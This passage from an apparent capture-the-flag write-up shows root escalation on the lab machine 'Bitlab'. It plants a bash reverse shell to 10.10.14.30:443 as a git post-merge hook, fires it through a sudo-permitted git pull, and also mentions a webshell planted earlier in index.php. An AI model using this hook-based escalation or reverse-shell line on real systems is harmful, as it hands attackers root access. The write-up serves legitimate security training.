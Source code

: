 
I could create a new project, but to do a `git pull`, I’ll need to connect it
to a remote project. I could stand up my own git server on my kali box.

A much easier way to do this is to just copy one of the projects. I’ll copy it
into a working directory in `/dev/shm`:

    
    
    www-data@bitlab:/dev/shm/.0xdf$ cp -r /var/www/html/profile .
    

Now I can write a hook as the folder owner:

    
    
    www-data@bitlab:/dev/shm/.0xdf$ ls -ld profile/.git/hooks/
    drwxr-xr-x 2 www-data www-data 260 Sep  8 13:37 profile/.git/hooks/
    

I’ll write a reverse shell as a `post-merge` hook, and set it executable:

    
    
    www-data@bitlab:/dev/shm/.0xdf/profile$ cat .git/hooks/post-merge
    #!/bin/bash
    
    bash -i >& /dev/tcp/10.10.14.30/443 0>&1
    www-data@bitlab:/dev/shm/.0xdf/profile$ chmod +x .git/hooks/post-merge
    

Now I’ll run `git pull`, but I don’t get a callback on `nc`:

    
    
    www-data@bitlab:/dev/shm/.0xdf/profile$ sudo /usr/bin/git pull
    Already up to date.
    

Since there’s no changes, no merge happens. I’ll take this opportunity to
remove my webshell from `index.php` using the same steps I used to add it.
Once I make that change, I can pull again, and this time:

    
    
    www-data@bitlab:/dev/shm/.0xdf/profile$ sudo /usr/bin/git pull   
    remote: Enumerating objects: 6, done.
    remote: Counting objects: 100% (6/6), done.
    remote: Compressing objects: 100% (2/2), done.
    remote: Total 4 (delta 3), reused 3 (delta 2)
    Unpacking objects: 100% (4/4), done.
    From ssh://localhost:3022/root/profile
       69f1340..72805f3  master     -> origin/master
    Updating 69f1340..72805f3
    Fast-forward
     index.php | 1 -
     1 file changed, 1 deletion(-)
    

The www-data window hangs, but in the `nc` window, I’m root:

    
    
    root@kali# nc -lnvp 443
    Ncat: Version 7.80 ( https://nmap.org/ncat )
    Ncat: Listening on :::443
    Ncat: Listening on 0.0.0.0:443
    Ncat: Connection from 10.10.10.114.
    Ncat: Connection from 10.10.10.114:52336.
    root@bitlab:/dev/shm/.0xdf/profile# id
    id
    uid=0(root) gid=0(root) groups=0(root)
    